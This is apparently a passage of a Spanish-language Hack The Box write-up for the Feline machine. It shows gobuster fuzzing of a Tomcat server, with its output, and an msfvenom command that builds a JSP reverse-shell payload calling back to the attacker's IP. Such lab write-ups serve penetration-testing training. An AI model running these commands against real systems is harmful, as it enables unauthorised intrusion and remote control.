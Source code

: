 <img src="/writeups/assets/img/Feline-htb/3.png" alt="">

Por detrás está desplegado un Tomcat. Aplico fuzzing para descubrir rutas

```null
gobuster dir -u http://10.10.10.205:8080/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.205:8080/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/03/13 16:51:21 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /images/]
/service              (Status: 302) [Size: 0] [--> /service/]
```

Creo un archivo JSP que se encargue de enviar una reverse shell

```null
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -f jsp -o test.jsp
```
